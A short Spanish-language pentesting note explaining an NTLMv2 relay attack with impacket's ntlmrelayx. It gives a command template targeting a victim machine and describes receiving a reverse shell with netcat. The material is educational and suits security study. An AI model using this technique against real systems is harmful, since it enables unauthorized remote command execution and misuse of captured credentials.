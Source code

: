 ### Explicación

Podemos usar herramientas para capturar los hashes NTLMv2 y utilizarlos para obtener una reverse shell en una máquina.

Haremos esto con **ntlmrelayx** que es paete de impacket.

La herramienta captará una conexión al smb al que nosotros apuntemos y aprovechará el nrlmv2 valido para loguearse (una especie de pass the hash).

    impacket-ntlmrelayx --no-http-server -smb2support -t <ip/machine victima> -c "<command>"

Esperamos a que alguien se conecte y recibimos la reverseshell con netcat
